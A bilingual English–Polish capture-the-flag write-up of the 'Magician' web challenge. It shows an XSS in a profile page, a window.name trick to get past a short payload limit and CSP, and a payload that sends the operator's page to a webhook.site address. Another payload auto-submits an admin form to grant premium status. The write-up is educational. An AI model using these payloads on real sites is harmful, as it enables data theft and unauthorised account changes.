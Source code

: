 # Magician (web)
[PL](#rozpoznanie)
## Analysis
In this challenge we can see a simple website imitating a web store with stuff for magicians:
![](image6.png)
The registration form contains standard login and password fields and “name” field that fill be visible in our profile:
![](image4.png)
![](image8.png)

Besides editing our profile (we can change the “name” field to any string of up to 33 characters length) we can see “support” tab that suggests typical XSS task:
![](image3.png)

The hardcoded URL of our profile suggests injecting into “name” field in our profile that we control - however, it’s just a bait (typical for ctf.zone) and the limit is only client-side. Removing readonly attribute from “Link to profile” field lets us redirect the operator to any website that we control.
![](image7.png)

Now we gain very useful information: the operator is using Firefox 6.1

A quick glance at response headers:
```
Content-Security-Policy: style-src 'self' 'unsafe-inline'; script-src 'self' 'unsafe-inline' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/;
X-Frame-Options: ALLOW-FROM http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one
X-XSS-Protection: 1; mode=block
```

## XSS
We can find a real XSS in uid parameter of profile.php script:
![](image1.png)

Unfortunately, the maximum length of our payload is 36 characters. It’s too short for any meaningful action, so we need to think of something that will let us execute longer payloads. After many tires and some googling we find the solution:
the name attribute of window object is not changed while redirecting to different origins. We can set it in our website and execute on vulnerable one with short payload that bypasses CSP and makes uses of the fact that it’s allowed to load iframes from our own origin:
```html
?uuid="><iframe onload=srcdoc=window.name>
```
iframe with content loaded with srcdoc parameter will be treated as same-origin
It’s worth to mention that we don’t care about X-XSS-Protection header that is simply ignored by Firefox.

```html
<script>
window.name='<script>alert("This is XSS!")</scrip'+'t>';
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E';
</script>
```
![](image2.png)

## Getting the flag
The remaining part of the task is simple: we send the content of operator’s website to us:
```html
<script>
window.name = `
<script>
window.frameElement.onload=null;
window.location="http://webhook.site/57607bbd-c1c9-43df-87cf-1de7dfe72d01?c="+btoa(window.parent.document.body.innerHTML);
`
window.name += '</scrip'+'t>’
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E'
</script>
```

And observe the new option in menu: manage.php:
![](image5.png)

Let’s write a payload that fills the form with our uid and gives us premium account:
```html
<script>
window.name = `
<script>
window.frameElement.onload=null;
console.log(window.parent.document.body.innerHTML);
function elo()
{
document.getElementById('cudo').onload=null;
r = document.getElementById('cudo').contentWindow.document;
r.getElementsByName('user_uuid')[0].value = 'dbb306dd-28c1-4333-88ba-9588842f08e0';
r.getElementsByName('status')[0].value = 'premium';
r.getElementById('user_manage').submit();
}

`
window.name += '</scrip'+'t><iframe src="/manage.php" onload="elo()" id="cudo">'
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E'
</script>
```

After refreshing our profile we can find a flag inside (unfortunately, while writing this writeup, that bot visiting website seems to be dead, so there won’t be a screenshot :( )
```
ctfzone{0190af5705a38115cd6dee6e7d79e317}
```

## Rozpoznanie
W zadaniu dostajemy prostą stronę udającą sklep z artykułami dla iluzjonistów:
![](image6.png)

Formularz rejestracji zawiera standardowe pole loginu i hasła oraz pole “name”, które będzie wyświetlane w profilu:
![](image4.png)
![](image8.png)

Oprócz edycji profilu (możemy zmienić pole Name na dowolny napis o długości do 33 znaków) widzimy zakładkę support, która sugeruje typowe zadanie na XSS:
![](image3.png)

Ustawiony na sztywno adres do naszego profilu sugeruje konieczność wstrzyknięcia naszego kodu w pole Name, które edytujemy - jest to jednak zwykła zmyła (typowa dla ctf.zone ;) ), a ograniczenie jest sprawdzane jedynie po stronie klienta. Usunięcie atrybutu readonly z pola “Link to profile” pozwala nam na przekierowanie operatora na dowolną kontrolowaną przez nas stronę:
![](image7.png)

Zyskujemy w ten sposób ważną informację: operator korzysta z przeglądarki Firefox 6.1.

Szybki rzut oka na nagłówki odsyłane przez serwer:
```
Content-Security-Policy: style-src 'self' 'unsafe-inline'; script-src 'self' 'unsafe-inline' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/;
X-Frame-Options: ALLOW-FROM http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one
X-XSS-Protection: 1; mode=block
```


## XSS
Prawdziwego XSS-a znajdujemy w polu uid skryptu profile.php:
![](image1.png)

Niestety, maksymalna długość naszego payloadu nie może przekraczać 36 znaków. To za mało na wykonanie jakiejkolwiek sensownej akcji, więc musimy pomyśleć o czymś, co pozwoli nam wykonywać dłuższe skrypty. Po wielu próbach i googlowaniu znajdujemy rozwiązanie: atrybut name obiektu window jest przekazywany między stronami. Możemy więc ustawić go na swojej stronie i wykonać na podatnej stronie krótkim payloadem, który omija CSP i wykorzystuje to, że dozwolone jest ładowanie ramek z własnego origina:
```html
?uuid="><iframe onload=srcdoc=window.name>
```
Ramka z zawartością załadowaną przez srcdoc będzie miała ten sam origin, co strona rodzica
Warto wspomnieć, że nie przeszkadza nam tutaj nagłówek X-XSS-Protection, który Firefox zwyczajnie ignoruje.

```html
<script>
window.name='<script>alert("This is XSS!")</scrip'+'t>';
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E';
</script>
```

![](image2.png)
## No to flaga!
Dalej już z górki: przesyłamy sobie zawartość strony, którą widzi operator:
```html
<script>
window.name = `
<script>
window.frameElement.onload=null;
window.location="http://webhook.site/57607bbd-c1c9-43df-87cf-1de7dfe72d01?c="+btoa(window.parent.document.body.innerHTML);
`
window.name += '</scrip'+'t>’
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E'
</script>
```

I w zwróconym kodzie zauważamy nową opcję w menu: manage.php:
![](image5.png)

Napiszmy więc payload, który wypełnia formularz naszym uuid i przyznaje nam konto premium:
```html
<script>
window.name = `
<script>
window.frameElement.onload=null;
console.log(window.parent.document.body.innerHTML);
function elo()
{
document.getElementById('cudo').onload=null;
r = document.getElementById('cudo').contentWindow.document;
r.getElementsByName('user_uuid')[0].value = 'dbb306dd-28c1-4333-88ba-9588842f08e0';
r.getElementsByName('status')[0].value = 'premium';
r.getElementById('user_manage').submit();
}

`
window.name += '</scrip'+'t><iframe src="/manage.php" onload="elo()" id="cudo">'
window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E'
</script>
```

Po czym odświeżamy nasz profil i znajdujemy w nim flagę (niestety, na moment pisanie writeupa bot odwiedzający stronę nie działa, więc nie będzie screenshota :( ):
```
ctfzone{0190af5705a38115cd6dee6e7d79e317}
```





